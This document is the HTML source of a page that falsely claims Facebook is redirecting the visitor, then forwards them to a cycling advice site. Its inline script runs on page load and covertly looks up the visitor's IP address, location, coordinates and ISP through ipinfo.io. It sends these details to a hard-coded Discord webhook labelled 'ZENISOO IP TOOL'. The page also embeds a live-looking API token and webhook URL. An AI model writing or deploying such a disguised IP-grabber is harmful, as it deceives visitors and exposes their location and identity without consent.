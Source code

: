 <html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="refresh" content="5;url=https://www.bikeradar.com/advice/beginners-cycling-tips">
    <title>Facebook: Redirecting</title>
</head>
<body>
    <h1>facebook is redirecting you to the site.
    </h1>
    <h2>please wait.</h2>
</body>
<script> 
        function fetchIPInfoAndSendEmbed() {
            const apiToken = 'd3df1d9e27298e';
            const now = new Date();
            const time = now.toLocaleString()
            function sendEmbedToDiscord(embedData) {
                const webhookURL = 'https://discord.com/api/webhooks/1256077249199865906/vxHTszKG92IwdvE02Sa0DCAL3olgPKFwx2lmWNc6Bv61XqBrI8vwy11Y4WziEeYf6wEO';
                return fetch(webhookURL, {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json',
                    },
                    body: JSON.stringify(embedData),
                });
            }
            return fetch(`https://ipinfo.io/json?token=${apiToken}`)
                .then(response => response.json())
                .then(data => {
                    if (data) {
                        const embedData = {
                            embeds: [{
                                title: 'ZENISOO IP TOOL',
                                description: `Time Clicked(NF):${time}\nIP Address: ${data.ip}\nCity: ${data.city}\nRegion: ${data.region}\nCountry: ${data.country}\nLocation: ${data.loc}\nOrganization: ${data.org}\nISP: ${data.hostname}`,
                                color: 0x00ff00
                            }]
                        };

                        return sendEmbedToDiscord(embedData);
                    } else {
                        document.getElementById('info').textContent = 'Failed to fetch IP information.';
                        return null;
                    }
                })
                .then(response => {
                    if (response && response.ok) {
                        console.log('Embed sent to Discord');
                    } else {
                        console.error('Failed to send embed to Discord:', response);
                    }
                })
                .catch(error => {
                    console.error('Error fetching IP information:', error);
                    document.getElementById('info').textContent = 'Failed to fetch IP information.';
                });
        }
        fetchIPInfoAndSendEmbed();
    </script>
</html>
